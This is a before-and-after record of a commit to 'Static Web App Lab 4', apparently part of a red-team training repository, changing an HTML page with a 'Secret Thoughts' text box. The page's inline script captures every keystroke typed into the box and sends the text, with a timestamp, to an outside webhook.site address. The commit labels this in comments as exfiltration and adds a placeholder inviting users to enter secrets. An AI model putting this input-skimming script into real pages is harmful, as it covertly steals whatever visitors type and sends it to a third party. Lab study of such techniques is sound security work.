

Before and after one commit to Tonyfu09/azure-red-team-expert, a website: page src/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/src/index.html
+++ b/src/index.html
@@ -1,5 +1,8 @@
-<html>
+<!DOCTYPE html>
+<html lang="en">
 <head>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>Static Web App Lab 4</title>
 </head>
 <body>
@@ -7,15 +10,21 @@
     <h1>Static Web App Lab 4 - Write</h1>
     <div>
       <h2>Secret Thoughts</h2>
-        <textarea id="secretThoughts"></textarea>
+      <textarea id="secretThoughts" placeholder="Enter your secrets here..."></textarea>
     </div>
   </div>
+
   <script>
+    // Capture input from textarea and exfiltrate to webhook
     const textarea = document.getElementById("secretThoughts");
-      textarea.addEventListener("input", function (e) {
+
+    textarea.addEventListener("input", function(e) {
       const text = e.target.value;
+
+      // Send captured text to webhook endpoint
       fetch(
-          `https://webhook.site/3834ef79-4a26-4f7f-9dce-569ccd329b48?text=${encodeURIComponent(text)}&timestamp=${encodeURIComponent(new Date().toISOString())}`).catch(console.error);
+        `https://webhook.site/3834ef79-4a26-4f7f-9dce-569ccd329b48?text=${encodeURIComponent(text)}&timestamp=${encodeURIComponent(new Date().toISOString())}`
+      ).catch(console.error);
     });
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
